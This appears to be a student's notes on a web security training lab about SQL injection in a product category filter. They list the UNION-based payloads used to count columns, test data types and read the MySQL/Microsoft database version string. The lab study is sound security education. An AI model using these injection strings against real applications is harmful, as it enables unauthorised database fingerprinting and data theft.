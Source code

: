 ```yaml
---
title: 'Lab 8: SQLi, querying the database type and versio...'
updated: 2022-12-01T14:00:36.0000000+04:00
created: 2022-12-01T11:50:47.0000000+04:00
---
```


AM
**<u>(Lab-08)</u>** - **<u>SQL Injection, querying database type and version on MySQL and Microsoft</u>**

**SQL Injection Vulnerability** - Product Category Filter

**End Goal** - Display the database version string

**<u>Analysis:</u>**

1.  Determine the number of columns

| Query to use | ' ORDER BY 2# | \# is also a comment command like -- |
|--------------|---------------|--------------------------------------|

![image1](image1-190.png)

| Query to use | ' ORDER BY 3# | Get Internet Server Error 500 Status Code |
|--------------|---------------|-------------------------------------------|

- That means that the number of columns is 2

2.  Determine the Data Types of the Columns

| Query to use | ' UNION SELECT 'a','a'# | Will return a 200 ok status |
|--------------|-------------------------|-----------------------------|

![image2](image2-86.png)

3.  Determine the Database Version and Type for MySQL and Microsoft

| Query to use | ' UNION SELECT NULL,@@version# |
|--------------|--------------------------------|

![image3](image3-55.png)
